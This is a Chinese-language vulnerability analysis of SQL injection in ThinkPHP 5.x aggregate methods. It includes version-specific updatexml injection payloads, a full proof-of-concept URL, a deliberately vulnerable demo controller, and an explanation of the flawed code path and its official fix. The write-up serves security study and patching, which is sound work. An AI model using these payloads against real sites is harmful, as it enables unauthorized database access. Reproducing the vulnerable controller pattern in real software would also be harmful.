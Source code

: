 5.0.0 \<= Thinkphp \<= 5.0.21 & 5.1.3\<=ThinkPHP5\<=5.1.25
==========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql**
聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql**
聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进
**SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

漏洞概要
--------

二、漏洞影响
------------

5.0.0\<=ThinkPHP\<=5.0.21

5.1.3\<=ThinkPHP5\<=5.1.25

三、复现过程
------------

不同版本 **payload** 需稍作调整：

 **5.0.0\~5.0.21** 、 **5.1.3～5.1.10** ：

    id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

**5.1.11～5.1.25** ：

    id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

漏洞环境
--------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.1.25 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.25"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $options = request()->get('options');
            $result = db('users')->max($options);
            var_dump($result);
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'Mochazz');
    insert into users(id,username) values(2,'Jerry');
    insert into users(id,username) values(3,'Kitty');

### poc

    http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId27.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId29.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId30.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max**
方法进行聚合查询语句构造，接着调用本类的 **aggregate**
方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在
**SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的
**aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量
**\$field** ，经过 **parseKey** 方法处理后，与 **SQL**
语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId31.png)

**parseKey**
方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过
**parseKey** 方法处理后，程序又回到了上图的 **\$this-\>value()**
方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL**
语句。这个方法应该说是在分析 **ThinkPHP**
漏洞时，非常常见的了。其无非就是使用 **str\_replace** 方法，将变量替换到
**SQL** 语句模板中。这里，我们重点关注 **parseField**
方法，因为用户可控数据存储在 **\$options\[\'field\'\]**
变量中并被传入该方法。

![5.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId32.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey**
方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL**
语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId33.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号**
以外的字符时，就抛出异常。

![3.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId35.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](resource/5.0.0=Thinkphp=5.0.21sql注入漏洞/media/rId37.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
